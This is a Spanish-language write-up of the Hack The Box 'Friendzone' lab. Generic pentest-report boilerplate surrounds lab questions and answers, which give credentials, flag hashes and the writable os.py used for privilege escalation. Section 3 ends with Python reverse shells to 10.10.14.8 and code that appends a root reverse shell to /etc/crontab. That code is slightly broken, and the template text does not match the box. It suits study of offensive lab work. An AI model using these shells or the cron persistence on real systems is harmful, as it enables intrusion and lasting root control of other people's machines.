# Informe Técnico de Seguridad Ofensiva: Friendzone


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Friendzone** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Friendzone |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Linux |
| **Nivel de Dificultad** | Easy |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

What is the common name for the box given on the TLS certificate on one of the open ports?

R: friendzone.red


**What is the name of the Samba share that allows for anonymous read and write access?**

R: Development



**What is the admin password available from** `creds.txt` **in one of the SMB shares?**

R:  WORKWORKHhallelujah@#




There are several subdomains of the friendzone.red domain available on this server. What is the name of the subdomain that returns a login form with the title "Login Form for FriendZone"?

R: administrator1.friendzone.red



**The** `dashboard.php` **page seems to be including another page that provides a timestamp. That page can also be visited directly. What is the relative path on the webserver to that page?**

R: /timestamp.php



**What's the full path on FriendZone to the directory that is shared by Samba as the Development share?**

R: /etc/Development



**What user is the webserver running as?**

R:www-data






**Submit the flag located in the friend user's home directory.**

R: 98481de2d4551e6d419ce1c425c96106



What is the friend user's password?

R: Agpyu12!0.213$


**What is the full path to the script that root is running every few minutes on a cron?**

R: /opt/server_admin/reporter.py





**What is the full path to the file related to** `reporter.py` **that is also world-writable?**

R:/usr/lib/python2.7/os.py



**Submit the flag located in root's home directory.**

R: 6fb1987d88c0eac063d15ff60bf48f3c



```jsx
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.8 999 >/tmp/f")

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.8",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")'

shell = '''
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.8 4444 >/tmp/f
'''
f = open('/etc/crontab', 'a')
f.write(shell)
f.close()
```

---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
